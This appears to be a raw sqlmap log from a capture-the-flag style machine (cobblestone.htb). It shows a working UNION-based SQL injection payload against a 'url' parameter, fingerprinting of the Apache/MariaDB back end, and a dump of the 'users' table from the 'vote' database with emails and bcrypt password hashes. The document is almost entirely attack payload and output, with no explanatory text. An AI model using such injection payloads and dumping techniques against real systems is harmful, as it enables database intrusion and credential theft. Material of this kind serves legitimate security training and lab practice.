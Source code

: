     Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-6357' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716a766a71,0x6a73435468644d4e77557753514f674d63435274495471415949714e466552705451644f5364614f,0x7162717871),NULL-- -
---
[16:34:59] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[16:34:59] [INFO] fetching columns for table 'users' in database 'vote'
[16:34:59] [INFO] fetching entries for table 'users' in database 'vote'
Database: vote
Table: users
[2 entries]
+----+------------------------+----------+--------------------------------------------------------------+----------+-----------+
| id | Email                  | LastName | Password                                                     | Username | FirstName |
+----+------------------------+----------+--------------------------------------------------------------+----------+-----------+
| 1  | cobble@cobblestone.htb |          | $2y$10$6XMWgf8RN6McVqmRyFIDb.6nNALRsA./u4HAF2GIBs3xgZXvZjv86 | admin    | Admin     |
| 10 | 123@123.com            | 123      | $2y$10$8oeGawnsrz/AQcKS6CecROQNA9YxgkVOJM937/DwRVs.e9sMqoGGG | test123  | 123       |
+----+------------------------+----------+--------------------------------------------------------------+----------+-----------+

[16:34:59] [INFO] table 'vote.users' dumped to CSV file '/home/lily/.local/share/sqlmap/output/vote.cobblestone.htb/dump/vote/users.csv'
[16:34:59] [INFO] fetched data logged to text files under '/home/lily/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 16:34:59 /2025-08-22/

```